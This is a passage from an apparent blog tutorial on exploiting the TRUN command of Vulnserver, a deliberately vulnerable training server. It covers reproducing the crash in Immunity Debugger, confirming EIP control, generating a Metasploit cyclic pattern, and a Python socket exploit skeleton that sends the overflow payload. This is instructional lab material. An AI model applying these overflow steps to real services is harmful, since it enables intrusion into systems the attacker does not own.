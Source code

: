 This time, let’s attach `vulnserver.exe` to a debugger. I will use
[Immunity Debugger](https://www.immunityinc.com/products/debugger/) with
[mona.py](https://github.com/corelan/mona) plugin.

So, let’s run the initial exploit and see what happens:

<div class="imgblock">

![Exploit: take 1](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331210/blog/vulnserver-trun/trun4_rs2er8.gif)

</div>

Great\! We were able to replicate the crash of `Vulnserver`.

<div class="imgblock">

![Controlling EIP](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331207/blog/vulnserver-trun/trun5_oqfsa9.webp)

</div>

If you look carefully at the image, you can see that the `EIP` register
has the value of `41414141` which is the hex representation of our
payload of `A`. `EIP` points to the next instruction to be executed, so
if we can control `EIP`, we have full control of the execution flow of
the whole application. Beautiful, isn’t it?

But remember that we injected 5000 `A`, so we must know the exact offset
on where `EIP` gets overwritten. To do that, we can create a cyclic
pattern of chars that will help us identify the exact offset that we
must inject to the buffer in order to control `EIP`. We will use a tool
from `Metasploit` called `pattern_create.rb`:

**Running pattern\_create.rb.**

``` console
cd /opt/metasploit-framework/embedded/framework/tools/exploit/
/pattern_create.rb -l 5000
```

<div class="imgblock">

![Cyclic pattern](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331210/blog/vulnserver-trun/pattern1_qenkwj.webp)

</div>

We then add that pattern to our exploit, replacing the buffer of `A`
with our pattern:

**exploit.py.**

``` python
import socket

HOST = '192.168.0.23'
PORT = 9999

PAYLOAD = (
    b'TRUN /.:/' +
    b'<paste pattern here>'
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
```
